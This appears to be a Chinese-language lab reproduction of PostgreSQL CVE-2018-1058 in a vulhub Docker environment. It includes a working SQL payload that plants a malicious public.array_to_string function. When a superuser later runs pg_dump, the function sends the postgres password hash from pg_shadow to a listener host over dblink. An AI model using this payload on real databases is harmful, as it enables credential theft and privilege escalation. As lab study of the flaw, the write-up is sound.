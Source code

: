 # PostgreSQL 提权漏洞（CVE-2018-1058）



### 1.1、漏洞描述

PostgreSQL 是一款关系型数据库。其9.3到10版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。

### 1.2、漏洞等级

### 1.3、影响版本

9.3到10版本

### 1.4、漏洞复现

#### 1、基础环境

Path：vulhub/postgres/CVE-2018-1058

---

启动测试环境：

```bash
sudo docker-compose up -d
```

环境启动后，将在本地开启PG默认的5432端口。

![image-20240108102936333](./imgs/image-20240108102936333.png)



#### 2、漏洞验证

1、普通用户植入后门命令

通过普通用户vulhub:vulhub的身份登录postgres：

```
psql --host 10.9.75.3 --username vulhub
```

![image-20240108103610351](./imgs/image-20240108103610351.png)

```mssql
CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
    select dblink_connect((select 'hostaddr=10.9.75.3 port=5433 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres'))); 
    SELECT pg_catalog.array_to_string($1,$2);
$$ LANGUAGE SQL VOLATILE;
```

![image-20240108103752932](./imgs/image-20240108103752932.png)

监听5433端口，等待超级用户触发我们留下的这个“后门”

![image-20240108103847220](./imgs/image-20240108103847220.png)

2、管理员操作数据库触发

用超级用户的身份执行pg_dump命令，导出vulhub这个数据库的内容

```bash
docker-compose exec postgres pg_dump -U postgres -f evil.bak vulhub
```

![image-20240108104032155](./imgs/image-20240108104032155.png)



